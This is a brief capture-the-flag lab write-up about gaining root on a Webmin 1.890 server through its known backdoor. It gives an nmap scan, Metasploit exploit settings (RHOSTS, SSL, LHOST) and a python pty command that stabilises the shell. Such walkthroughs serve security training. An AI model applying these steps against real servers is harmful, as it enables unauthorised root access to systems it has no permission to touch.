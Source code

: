 ```yaml
---
layout: default
title : muzec - Source Writeup
---
```


![Image](https://miro.medium.com/max/700/1*b4_Rxzg7uAduZriP-QX7Ig.jpeg)

```Exploit a recent vulnerability and hack Webmin, a web-based system configuration tool.```

We always start with an Nmap scan let hit it ```nmap -sC -sV -oA nmap IP address.```

![Image](https://miro.medium.com/max/700/1*WYJ67eGKOzmD16XW_rUgJg.png)

Two open ports 22 ssh and 10000 MiniServ 1.890 i think the web server i try accessing the port 10000.

!{Image](https://miro.medium.com/max/700/1*XdGYLcsrrP4ATWPu8U9dZQ.png)

This web server is running in SSL mode. Try the URL https://ip-10-10-112-198.eu-west-1.compute.internal:10000/ instead.

skipping the warning i try to do some research on the web server luckily i hit a jackpot on Webmin website about the Webmin version 1.890.

Webmin version 1.890 was released with a backdoor that could allow anyone with knowledge of it to execute commands as root.

![Image](https://miro.medium.com/max/700/1*7cQpmjdn4njAV5kwzBBa5A.png)

Let launch our Metasploit.

![Image](https://miro.medium.com/max/700/1*SP2FRgDvSLlS4OGQrRFLaQ.png)

Searching the web server version MiniServ 1.890 boom we found our exploit let set it up and get ready to exploit.


![Image](https://miro.medium.com/max/700/1*ePTgZFlKdD1t_eEqUiJ1yg.png)

```set RHOSTS Machine IP address.```

```set SSL true since we know this web server is running in SSL mode.```

```set LHOST Internal Virtual IP Address Your VPN.```

```exploit.```

![Image](https://miro.medium.com/max/700/1*61qeMdgEE1wLMnSFgRUy3Q.png)

Boom we have root shell we can spawn a TTY shell to make it more stable ```python -c ‘import pty; pty.spawn(“/bin/bash”)’```

![Image](https://miro.medium.com/max/700/1*-vV-HtoAqk4WGKUhHOxRUw.png)

Now let get User flag and root flag in each directory.

![Image](https://miro.medium.com/max/700/1*vP5XLy0hs7X1omLbF4Au6w.png)

![Image](https://miro.medium.com/max/700/1*o2hIj5agfTtEvyxnx63LtA.png)

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>

